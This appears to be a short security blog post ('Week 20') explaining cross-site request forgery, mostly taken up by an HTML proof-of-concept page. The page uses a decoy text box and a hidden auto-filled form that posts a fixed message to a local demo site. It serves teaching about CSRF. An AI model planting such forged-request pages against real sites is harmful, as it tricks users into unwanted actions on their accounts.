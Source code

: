 ```yaml
---
layout: post
title: Cross-site Request Forgery
subtitle: Week 20
tags: [CSRF, exploit]
---
```


XSS is a popular, and well-known vulnerability. CSRF is less common but just as dangerous, particularly because of the lack of awareness.

{% highlight html linenos %}

<!doctype html>

<head>
  <title>Feels</title>
</head>

<body>
  <h1>How are you?</h1>
  <input type="textarea" />
  <!--
  notice how this text area is not a child of the form below.
  we don't care about the user's input, it is discarded.
  -->
  <form action="http://talk.local/create_story">
    <input type="hidden" name="my_story" value="i feel very small, please hold me closer..." />
    <input type="submit" />
  </form>
</body>

{% endhighlight %}
